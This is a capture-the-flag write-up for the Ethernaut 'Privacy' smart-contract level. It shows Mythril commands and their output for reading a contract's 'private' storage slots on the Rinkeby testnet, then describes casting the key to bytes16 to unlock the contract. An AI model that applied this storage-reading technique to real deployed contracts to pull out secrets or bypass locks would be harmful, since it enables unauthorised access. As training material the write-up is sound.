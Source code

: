 # Privacy

The creator of this contract was careful enough to protect the sensitive areas of its storage.<br/>
Unlock this contract to beat the level.<br/>

Things that might help:<br/>

- Understanding how storage works<br/>
- Understanding how parameter parsing works<br/>
- Understanding how casting works<br/>

**Tips:** <br/>
Remember that metamask is just a commodity. Use another tool if it is presenting problems. Advanced gameplay could involve using remix, or your own web3 provider.<br/>

The Privacy contract store the sensitive data during constructor.We can use web3 to read storage to see slot of `bytes32[3] private data` value. See [web3 solution](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Privacy/getStorage.js) or use [mythril](https://github.com/ConsenSys/mythril) to read storage.

### Mythril usage:

```shell
myth read-storage --rpc infura-[network] slot_number contract_addr
```

Read storage from slot 0,6:
```shell
 myth read-storage 0,6 0x71B36F81241A21Ba0712190D5Fd637085d18Db80 --rpc infura-rinkeby --infura-i
d="YOUR_INFURA_ID"
0x0: 0x0000000000000000000000000000000000000000000000000000000000000000
0x1: 0x00000000000000000000000000000000000000000000000000000000623728e8
0x2: 0x0000000000000000000000000000000000000000000000000000000028e8ff0a
0x3: 0x3809c1b6af00ce53bffe1fe85bbe005b489d69e276899b8922504cd3764fc6c7
0x4: 0xa952766b53db2509e7e6d344a103a4900e16f90a18b5ee17b4b7bd9ae48fe736
0x5: 0x621e4f9c9fce7ccc4829660be3ae726a0bee35eda2d34f2381083f76e5b25ffb
```

Read storage only slot 5:
```shell
myth read-storage 5 0x71B36F81241A21Ba0712190D5Fd637085d18Db80 --rpc infura-rinkeby --infura-id=
"YOUR_INFURA_ID"
5: 0x621e4f9c9fce7ccc4829660be3ae726a0bee35eda2d34f2381083f76e5b25ffb
```

After we got slot `data` value 0x621e4f9c9fce7ccc4829660be3ae726a0bee35eda2d34f2381083f76e5b25ffb, we need to convert type from byte32 to byte16 because `_key` is last index array in data[2].See the [exploit solution](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Privacy/privacyAttack.sol)